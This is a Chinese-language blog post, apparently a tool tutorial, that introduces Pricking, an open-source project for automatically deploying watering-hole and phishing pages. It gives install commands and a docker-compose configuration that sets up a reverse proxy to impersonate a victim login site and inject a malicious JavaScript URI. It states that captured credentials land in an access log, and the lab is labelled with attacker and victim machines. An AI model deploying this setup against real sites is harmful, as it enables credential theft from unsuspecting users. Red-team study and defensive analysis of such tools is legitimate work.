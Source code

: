 ```yaml
---
title: Pricking 项目（一） ：使用介绍
layout: post
date: '2021-02-18'
permalink: "/archivers/2021-02-18/1"
description:  Pricking 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍Pricking项目的安装与使用。
---
```



## 0x00 安装项目

[Pricking](https://github.com/Rvn0xsy/Pricking) 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍[Pricking](https://github.com/Rvn0xsy/Pricking) 项目的安装与使用。

```
$ git clone https://github.com/Rvn0xsy/Pricking
$ cd Pricking
$ docker-compose up -d
```

## 0x01 例子演示

环境：

- Arch Linux 64Bit 127.0.0.1 攻击机（反向代理服务器）
- Kali Linux 64Bit 172.16.42.135 受害服务器
- 攻击者域名 proxy.payloads.online -> 127.0.0.1

假设受害服务器（172.16.42.135 ）有一个站点：

![2021-02-18-00-47-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6b41bbce9503d7a27873e067c0121213.png)

需要用户输入正确的账号密码才可以访问内部的功能。

修改docker-compose.yml:

```yml
version: '3'
services:
  nginx:
    image: rvn0xsy/pricking:v1
    ports:
     - "80:80"
    volumes:
     - ./:/tmp/pricking
     - /etc/hosts:/etc/hosts # 由于是测试，所以修改的是hosts充当DNS服务器，因此需要映射hosts文件。
    environment:
      PROXY_PASS_HOST: proxy.payloads.online
      PROXY_SOURCE_HOST: 172.16.42.135
      NGINX_LISTEN_PORT: 80
      EVIL_JS_URI: b026324c6904b2a9cb4b88d6d61c81d1
```

![2021-02-18-00-52-45](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2afb4b2a080c085b332acf5e5b356187.png)

此时访问http://proxy.payloads.online 就等同于访问受害服务器（172.16.42.135 ）。

![2021-02-18-00-53-45](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/25c6eeb1a9ac59b47e0ae9d92e132558.png)

当用户输入凭证或访问水坑网站，在[Pricking](https://github.com/Rvn0xsy/Pricking)项目目录中会生成`access.log`：

![2021-02-18-00-55-35](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c0d9624a54036a0c6a92a25e22bd721a.png)


